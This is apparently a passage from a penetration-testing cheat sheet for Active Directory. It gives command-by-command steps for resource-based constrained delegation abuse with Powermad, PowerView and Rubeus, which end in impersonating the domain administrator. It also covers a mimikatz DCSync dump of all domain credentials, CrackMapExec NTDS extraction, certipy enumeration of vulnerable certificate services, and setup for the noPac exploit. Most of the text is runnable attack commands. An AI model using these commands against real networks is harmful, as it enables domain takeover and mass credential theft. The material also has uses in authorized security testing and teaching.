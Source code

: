 Run Secretsdump or CrackMapExec: `cme smb dc02.corp.local -k --ntds`


### From Windows PowerShell

Import [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) and [PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) into your PowerShell session.

If an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account: `New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)`

```
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer [target (domain controller)] | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Ghostpack\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:ADMINISTRATOR /msdsspn:LDAP/[target fqdn] /ptt
mimikatz.exe
lsadump::dcsync /dc:dc02.corp.local /domain:corp.local /all /csv
```

## ADCS - Exploiting Active Directory Certificate Services

Install certipy: sudo apt install -y certipy-ad

Run it and check domain controllers: 

```
certipy-ad find -u <username> -p <password> -vulnerable -dc-ip <dc ip> -stdout
```

This blog post has some useful info on exploitation: https://mayfly277.github.io/posts/GOADv2-pwning-part6/

## SamAccountName (nopac, CVE-2021-42287)

Explanation of the vulnerability: https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html

Test if the DC is vulnerable: `crackmapexec smb <file containing DC IP's> -M nopac`

If yes, proceed to the next steps:

Check if we can add a computer: `cme ldap <DC FQDN> -u <username> -p <password> -d <domain name> -M MAQ`

The changed to impacket have not yet been merged to the release branch, so let's pull the version we need:

```
cd /opt
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
git checkout -b mydev
```
